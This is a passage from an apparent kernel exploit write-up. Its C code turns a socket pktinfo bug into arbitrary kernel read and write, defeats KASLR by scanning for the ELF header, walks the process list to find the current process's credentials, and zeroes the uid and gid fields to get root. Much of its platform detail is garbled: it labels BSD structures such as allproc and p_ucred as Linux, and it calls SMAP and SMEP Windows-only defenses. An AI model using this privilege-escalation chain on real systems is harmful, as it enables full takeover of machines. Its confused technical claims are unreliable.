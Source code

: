 We can also use the same primitive for arbitrary kernel write: we can write an address `y` to our pktinfo buffer, and then call `setsockopt()` instead of `getsockopt()` to write to the same address.
```c
static int kwrite(uint64_t addr, void *buf) {
  write_to_victim(addr);
  return set_pktinfo(victim_sock, buf);
}
```
Now that we have both primitives lets get to defeating some kernel defenses.

### Defeating KASLR
**K**ernel **A**ddress **S**pace **L**ayout **R**andomization is a technique to make exploiting such vulnerabilities harder. Every time an executable (or the kernel in this case) loads, it's offset will be randomized. If there were static offsets (like in the pre-2006 linux) it would be easy to guess the address of some key data structures and corrupt them. This is aimed to prevent such things from happening. 
Thankfully, this is not Windows. Windows has a plethora of other defenses which are really hard to overcome like SMAP and SMEP. However in linux its relatively easier to exploit arbitrary write. 
Fortunately for us, the kernel base starts with an ELF header, and every ELF  header must have the `ELF_MAGIC` value set in the beginning, so we only need to scan the memory for `ELF_MAGIC` 
```c
static uint64_t find_kernel_base(uint64_t addr) {
  addr &= ~(PAGE_SIZE - 1);
  while (kread32(addr) != ELF_MAGIC)
    addr -= PAGE_SIZE;
  return addr;
}
```
Next, the process descriptor table is always at a fixed offset from the kernel base. So we  can walk the table until we reach our own process: this will help us leak the addresses to which some critical structures of the kernel have been mapped in our process

```c
static int find_proc_cred_and_fd(pid_t pid) {
  uint64_t proc = kread64(kernel_base + ALLPROC_OFFSET);
  while (proc) {
    if (kread32(proc + PROC_PID_OFFSET) == pid) {
      p_ucred = kread64(proc + PROC_UCRED_OFFSET);
      p_fd = kread64(proc + PROC_FD_OFFSET);
      printf("[+] p_ucred: 0x%lx\n", p_ucred);
      printf("[+] p_fd: 0x%lx\n", p_fd);
      return 0;
    }
    proc = kread64(proc + PROC_LIST_OFFSET);
  }
  return -1;
}
```
Above, `p_fd` contains the pointer to the file descriptor tables (i.e. arbitrary file read may now be orchestrated). But even more interestingly, `p_ucred` is where the credentials of the current user are stored. Now `uid 0` is always root. GUID or GID in linux is the group descriptor and to get access to all resources all we need to do is set uid and guid to 0.
```c
static void escalate_privileges(void) {
  char buf[sizeof(struct in6_pktinfo)];
  *(uint32_t *)(buf + 0x00) = 0; // cr_uid
  *(uint32_t *)(buf + 0x04) = 0; // cr_ruid
  *(uint32_t *)(buf + 0x08) = 0; // cr_svuid
  *(uint32_t *)(buf + 0x0c) = 1; // cr_ngroups
  *(uint32_t *)(buf + 0x10) = 0; // cr_rgid
  kwrite(p_ucred + 4, buf);
}
```
### Cleanup
